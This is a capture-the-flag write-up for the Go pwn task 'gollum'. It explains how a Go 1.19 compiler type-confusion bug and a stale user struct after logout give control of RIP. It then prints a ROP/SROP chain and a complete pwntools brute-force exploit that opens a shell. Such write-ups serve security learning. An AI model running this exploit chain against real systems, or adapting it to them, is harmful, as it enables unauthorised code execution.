




# Description

> In the depths of Orodruin I have found a new type of database. <br>
> It stores users and passwords within the single structure. <br>
> I hope it's safe. I use it in production anyway.

According to the developers' classification, the **gollum** task is the simplest by
complexity, but at the end of the competition it had the least number of solutions
and actually turned out to be the most difficult.
<span style="color: red;">
**:drop_of_blood:&nbsp;In&nbsp;turn,&nbsp;I&nbsp;made&nbsp;firstblood&nbsp;:drop_of_blood:**
</span>

# Solution

## Analysis

An archive with the Go source code is attached to the task

```sh
$ tree
.
├── deploy
│   ├── docker-compose.yml
│   ├── Dockerfile
│   ├── entrypoint.sh
│   ├── gollum
└── src
    ├── build.sh
    ├── cmd
    │   └── main.go
    ├── database
    │   └── database.go
    ├── Dockerfile
    ├── go.mod
    ├── models
    │   ├── credential.go
    │   └── user.go
    ├── services
    │   └── auth.go
    └── util
        └── hashes.go
```

Run `file` and `checksec`:

```sh
$ file gollum
gollum: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=U5zgabr6y7z_rmgQr480/aF0WXt2RGaUXA0Hq_MuU/7vr2Qg4Tl__oBE76V6Jv/OAeBTWqr0fuu2MX0t8wP, with debug_info, not stripped

$ checksec --file=gollum
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols       FORTIFY Fortified   Fortifiable FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   2347 Symbols  No      0           0           gollum
```

Here is the Golang binary built in Debug version. Launching the binary:

```sh
./gollum
[!] Hello! Please, use `HELP` for available commands.
> HELP
[*] Use `LOGIN`, `REGISTER` or `EXIT` commands.
> REGISTER
[?] Please, enter username: foo
[?] Please, enter password: bar
[?] Please, enter password protection mode: sha1
[+] Registered successfully.
> LOGIN
[-] You are logged in, you should log out first.
> HELP
[*] Use `INFO`, `UPDATE`, `LOGOUT` or `EXIT` commands.
> INFO
[*] User: foo
> UPDATE
[?] Please, enter description: goida
[+] Description updated.
> INFO
[*] User: foo "goida"
> LOGOUT
> LOGIN
[?] Please, enter username: foo
[?] Please, enter password: bar
[+] Logged in successfully.
>
```

The program is a kind of database, with the ability to register, authorize and update the user
description. It's worth paying attention to the description of the task itself, which says
that users and passwords are stored within a single structure. My first sudden thought
was related to the vulnerability **Type Confusion**, and as you know, first thought, best thought

### Source code

#### Used models

```go {linenos=1,linenostart=19}
type HashFunc func(Credential) string

type Credential struct {
    created time.Time

    hashFunc HashFunc
    password string
}
```

```go {linenos=1,linenostart=5}
type User struct {
    Id          int
    Name        string
    Description string

    CredentialId int
}
```

#### Creating user and logging out

```go {linenos=1,linenostart=140,hl_lines="30"}
func handleRegister(ctx *Context) {
    if ctx.loggedIn {
        fmt.Println("[-] You are logged in, you should log out first.")

        return
    }

    username := input("[?] Please, enter username: ")
    password := input("[?] Please, enter password: ")

    protection := input("[?] Please, enter password protection mode: ")

    var parsedProtection models.Protection
    switch strings.ToLower(protection) {
    case "full":
        parsedProtection = models.FullProtection
    case "md5":
        parsedProtection = models.MD5Protection
    case "sha1":
        parsedProtection = models.SHA1Protection
    case "sha256":
        parsedProtection = models.SHA256Protection
    default:
        fmt.Println("[-] Invalid protection mode, available modes: `Full`, `MD5`, `SHA1` and `SHA256`).")
        return
    }

    credential := models.NewCredential(password, parsedProtection)

    ctx.user.Name = username

    user, err := ctx.auth.Register(ctx.user, credential)
    if err != nil {
        fmt.Println("[-] Error:", err)
        return
    }

    fmt.Println("[+] Registered successfully.")

    ctx.user = user
    ctx.loggedIn = true
}
```

This is where a new user is created and added to the database. Note one inaccuracy in the
implementation: when registering, the `ctx.user` structure is taken as the basis, the fields
of which can already be defined

Exploitation of the vulnerability described above is possible due to the following error

```go {linenos=1,linenostart=140}
func handleLogout(ctx *Context) {
    if !ctx.loggedIn {
        fmt.Println("[-] You are not logged in, you should log in first.")

        return
    }

    ctx.loggedIn = false
}
```

In this function, the user is logged out. The `ctx.loggedIn` flag is reset, unlike the
`ctx.user` structure. Together, these two mistakes allow us to create a user with an already
**filled description**

#### Updating description and logging in

```go {linenos=1,linenostart=121}
func handleUpdate(ctx *Context) {
    if !ctx.loggedIn {
        fmt.Println("[-] You are not logged in, you should log in first.")

        return
    }

    description := input("[?] Please, enter description: ")

    user := models.User{
        Name:        ctx.user.Name,
        Description: description,
    }

    ctx.db.UpdateUser(user)

    fmt.Println("[+] Description updated.")
}
```

When updating the user description, its description is placed in the database, but the `ctx.user`
structure is not updated. To fix this, just log in to your account

```go {linenos=1,linenostart=84,hl_lines="19"}
func handleLogin(ctx *Context) {
    if ctx.loggedIn {
        fmt.Println("[-] You are logged in, you should log out first.")

        return
    }

    username := input("[?] Please, enter username: ")
    password := input("[?] Please, enter password: ")

    user, err := ctx.auth.Login(username, password)
    if err != nil {
        fmt.Println("[-] Error:", err)
        return
    }

    fmt.Println("[+] Logged in successfully.")

    ctx.user = user
    ctx.loggedIn = true
}
```

#### Debugging information

```go {linenos=1,linenostart=19,hl_lines="11"}
func (db *Database) AddCredential(credential models.Credential) int {
    id := len(db.storage)

    db.storage[id] = credential

    type debugEntry[T any] struct {
        Credential models.Credential
    }

    entry := debugEntry[int]{credential}
    fmt.Sprintf("[DEBUG] Added credential entry %v\n", entry)

    return id
}
```

```go {linenos=1,linenostart=48,hl_lines="12"}
func (db *Database) AddUser(user models.User) int {
    id := len(db.storage)

    user.Id = id
    db.storage[id] = user

    type debugEntry[T any] struct {
        User models.User
    }

    entry := debugEntry[int]{user}
    fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)

    return id
}
```

When analyzing the source code, I noticed these lines. I didn't attach proper importance to them, but
I was confused that this info is not printed to the console (which is logical, because `fmt.Sprintf`
returns a string and does not output anything). I did not understand meaning of this code

## Exploitation

Back to my thought about Type Confusion, I decided to google known Golang vulnerabilities, and
literally the first result was [issue on GitHub](https://github.com/golang/go/issues/54456) with
description of the problem. Oddly enough, the Go version is the same as ours

Local version of Golang:

```docker {linenos=1,hl_lines="1"}
FROM golang:1.19

WORKDIR /tmp/build

CMD go build -o gollum ./cmd/main.go
```



The issue also presents a PoC, which throws a segfault at startup. The problem is an error in the
compiler, which uses the names of internal types as is, and creating multiple internal types with
the same names leads to a Type Confusion vulnerability.



In our case, we come to the conclusion that in the function
<a data-target="code-block" href="#hl-10-55">**AddUser**</a>
field type of `debugEntry` structure is not `models.User`, but `models.Credential`
(which was defined earlier in
<a data-target="code-block" href="#hl-9-25">**AddCredential**</a>).
This can be easily verified using GDB




### Type Confusion for RIP control

Note that the fields `Credential.hashFunc` and `User.Description` overlap

```plain
$ pahole -C gollum/models.Credential gollum
struct gollum/models.Credential {
    time.Time                  created;              /*     0    24 */
    gollum/models.HashFunc     hashFunc;             /*    24     8 */
    struct string              password;             /*    32    16 */

    /* size: 48, cachelines: 1, members: 3 */
    /* last cacheline: 48 bytes */
};

$ pahole -C gollum/models.User gollum
struct gollum/models.User {
    int                        Id;                   /*     0     8 */
    struct string              Name;                 /*     8    16 */
    struct string              Description;          /*    24    16 */
    int                        CredentialId;         /*    40     8 */

    /* size: 48, cachelines: 1, members: 4 */
    /* last cacheline: 48 bytes */
};
```

Due to the fact that `Credential.hashFunc` is a pointer to method table, and `User.Description`
is a pointer to string, we can easily override RIP by specifying the address we are interested in
in the user description. However, the vulnerability is relevant only **when creating** user, so
we will use <a data-target="code-block" href="#hl-5-171">another vulnerability</a> described earlier

```go {linenos=1,linenostart=57,hl_lines="3"}
    ...
    entry := debugEntry[int]{user}
    fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)
    ...
```

```go {linenos=1,linenostart=58,hl_lines="5"}
func (credential Credential) String() string {
    var hash string

    if credential.hashFunc != nil {
        hash = credential.hashFunc(credential)
        hash = hash[:3] + "***" + hash[len(hash)-3:]
    } else {
        hash = "***"
    }

    return hash
}
```

### Pivoting and SROP to obtain shell

At the moment, we can only control RIP


For subsequent exploitation using ROP, it is necessary to control some stack memory. Note that
the RSP points to the memory area where the description string is located, moreover, RSP points
to the memory before the string



The offset to the buffer is random, but the last 3 nibbles are always static. I also found out in
a practical way that offset does not exceed 0x80000 and it can be quickly bruted. Based on this, I
picked up several gadgets for pivoting. The second one was the most successful

```python
ADD_RSP = 0x45d0ba    #: add rsp, 0x20008 ; ret
ADD_RSP = 0x45d1ba    #: add rsp, 0x40008 ; ret
ADD_RSP = 0x45d2ba    #: add rsp, 0x80008 ; ret
```

To call execve you need to control **rax**, **rdi**, **rsi** и **rdx**, as well as have the string
**/bin/sh** and know its address. Binaries written in Go are not rich in gadgets

```sh
$ ROPgadget --binary gollum | grep -E ': pop r.{2} ; ret$'
0x000000000040c9d7 : pop rax ; ret
0x000000000045f76d : pop rbp ; ret
0x0000000000407dc1 : pop rbx ; ret
0x000000000042dc82 : pop rdx ; ret
```

I went a bit heuristic way, namely: I created the string **/bin/sh** in memory via known gadgets

```python
POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret
MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall

BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,
]
```

And performed SROP to set up registers for evecve

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop += [
    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]
```

### Putting together

<details>
    <summary>Exploit</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 127.0.0.1 --port 17172 gollum
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'gollum')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 17172)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.STRACE:
        with tempfile.NamedTemporaryFile(prefix='pwnlib-log-', suffix='.strace',
                                         delete=False, mode='w') as tmp:
            log.debug('Created strace log file %r\n', tmp.name)
            run_in_new_terminal(['tail', '-f', '-n', '+1', tmp.name])
            return process(['strace', '-o', tmp.name, '--'] + [exe.path] + argv, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

def num(n):
    return str(n).encode()

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main.main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

from pwnbrute import *

# ADD_RSP = 0x45d0ba #: add rsp, 0x20008 ; ret
ADD_RSP = 0x45d1ba #: add rsp, 0x40008 ; ret
# ADD_RSP = 0x45d2ba #: add rsp, 0x80008 ; ret

POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret

MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall
BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,

    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]

MENU = b'> '


def pwn():
    io = start()

    # Register user
    io.sendlineafter(MENU, b'register')
    io.sendlineafter(b': ', b'foo')
    io.sendlineafter(b': ', b'bar')
    io.sendlineafter(b': ', b'sha1')

    # Update his description
    io.sendlineafter(MENU, b'update')
    io.sendlineafter(b': ', flat({
        0: ADD_RSP,
        0x1e0: rop,
        0x1000: b'',
    }) * 20)  # Repeat chain to increase exploit probability

    io.sendlineafter(MENU, b'logout')

    # Update `ctx.user` struct
    io.sendlineafter(MENU, b'login')
    io.sendlineafter(b': ', b'foo')
    io.sendlineafter(b': ', b'bar')

    io.sendlineafter(MENU, b'logout')

    # Register user with prepared description
    io.sendlineafter(MENU, b'register')
    io.sendlineafter(b': ', b'hui')
    io.sendlineafter(b': ', b'bar')
    io.sendlineafter(b': ', b'sha1')

    io.sendline(b'echo cleanoutput')
    io.recvuntil(b'cleanoutput')

    success()

    io.interactive()


if __name__ == '__main__':
    brute(pwn, workers=16)
```

</details>


